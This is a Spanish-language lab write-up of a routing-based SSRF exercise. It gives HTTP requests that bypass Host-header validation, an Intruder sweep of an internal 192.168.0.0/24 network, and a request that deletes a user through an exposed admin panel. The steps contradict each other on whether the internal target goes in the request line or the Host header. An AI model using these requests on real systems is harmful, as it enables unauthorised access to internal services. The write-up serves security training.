






# 📡 SSRF por parsing incorrecto de la petición

## 📄 Descripción del laboratorio

Este laboratorio es vulnerable a **Server-Side Request Forgery (SSRF)** debido a un análisis incorrecto del destino real de la petición HTTP.

La aplicación valida la cabecera `Host`, pero interpreta de forma incorrecta las **URLs absolutas en la línea de petición**, lo que permite forzar peticiones hacia servicios internos.

El objetivo es acceder al panel administrativo interno ubicado en la red:

```
192.168.0.0/24
```

Una vez localizado el panel, debemos eliminar al usuario **carlos**.

Nota: para evitar abusos, la plataforma bloquea conexiones externas arbitrarias. Solo deben utilizarse **Burp Collaborator** y los recursos internos del laboratorio.


## 📚 Teoría

### 📌 SSRF mediante parsing inconsistente de la petición

Este laboratorio explota una variante de SSRF basada en **discrepancias en el parsing de peticiones HTTP**.

El problema aparece cuando diferentes componentes del sistema interpretan la petición de forma distinta.

El comportamiento vulnerable es el siguiente:

* El **frontend** valida la cabecera `Host`.
* Sin embargo, el **proxy interno o middleware** utiliza la **URL absoluta de la línea de petición** para determinar el destino real.

Ejemplo de petición con URL absoluta:

```http
GET https://destino/ HTTP/1.1
Host: ejemplo.com
```

En este escenario:

* El frontend cree que la petición se dirige a `Host`.
* El backend decide el destino usando `https://destino`.

Esto crea una discrepancia crítica.

Un atacante puede:

* Mantener un `Host` válido para pasar la validación.
* Inyectar el destino real en la **línea de petición**.

Este tipo de fallo suele aparecer en:

* reverse proxies mal configurados
* middlewares HTTP
* frameworks que aceptan URLs absolutas sin validación estricta

Como resultado, es posible forzar conexiones hacia direcciones internas.


## 📝 Práctica

### 1️⃣ Verificar la validación de Host

Interceptamos una petición normal:

```http
GET / HTTP/1.1
Host: ID-LAB.web-security-academy.net
```

Intentamos modificar la cabecera `Host`:

```http
Host: test.com
```


<br>

Resultado:

La aplicación devuelve un error como **403 Forbidden**.

Esto indica que el servidor valida correctamente la cabecera `Host`.

El vector SSRF clásico mediante `Host` no es viable.


### 2️⃣ Probar una URL absoluta en la línea de petición

Ahora modificamos la línea de petición para incluir una URL absoluta:

```http
GET https://ID-LAB.web-security-academy.net/ HTTP/1.1
Host: test.com
```


<br>

Resultado:

La respuesta devuelve un **Gateway error** o un error del servidor.

Esto indica que el backend intenta enrutar la petición utilizando la URL absoluta.

Esto confirma la existencia de un **parsing inconsistente del destino**.


### 3️⃣ Enumerar la red interna con Intruder

Ahora sabemos que el backend utiliza la URL absoluta para enrutar.

Utilizamos **Burp Intruder** para escanear la red interna.

Configuración:

Línea de petición:

```http
GET https://192.168.0.§X§/admin HTTP/1.1
```

Cabecera:

```http
Host: test.com
```

Es importante desactivar la opción:

```
Update Host header to match target
```

Payload:

* Tipo: Numeric
* Rango:

```
1 → 255
```




### 4️⃣ Identificar el panel administrativo interno

Ejecutamos el ataque y analizamos las respuestas.

La mayoría devuelven:

* errores
* timeouts

Sin embargo, una dirección devuelve una respuesta **302 redirigiendo a `/admin`**.

Ejemplo:

```
192.168.0.175
```

Esto indica que esa IP aloja el panel administrativo interno.




### 5️⃣ Acceder al panel de administración

Enviamos la siguiente petición desde **Burp Repeater**:

```http
GET https://ID-LAB.web-security-academy.net/admin HTTP/1.1
Host: 192.168.0.175
```


<br>

Respuesta:

El servidor devuelve el HTML del panel administrativo interno.

No se solicita autenticación.

Esto confirma que hemos accedido al panel mediante SSRF.


### 6️⃣ Eliminar al usuario carlos

Inspeccionamos el panel y encontramos la acción para eliminar usuarios.

Ejemplo de endpoint:

```
/admin/delete?username=carlos&csrf=TOKEN
```

Construimos la petición final:

```http
GET https://ID-LAB.web-security-academy.net/admin/delete?username=carlos&csrf=CSRF_TOKEN HTTP/1.1
Host: 192.168.0.175
```

Enviamos la petición.


<br>

El servidor elimina correctamente al usuario **carlos**.

El laboratorio se marca como completado.


### 7️⃣ Resultado

Mediante una vulnerabilidad de **SSRF causada por parsing incorrecto de la petición HTTP** se ha conseguido:

* Evadir la validación de la cabecera `Host`.
* Utilizar URLs absolutas para controlar el destino real de la petición.
* Enumerar la red interna `192.168.0.0/24`.
* Acceder al panel administrativo interno.
* Eliminar al usuario **carlos**.

✅ El laboratorio queda resuelto.
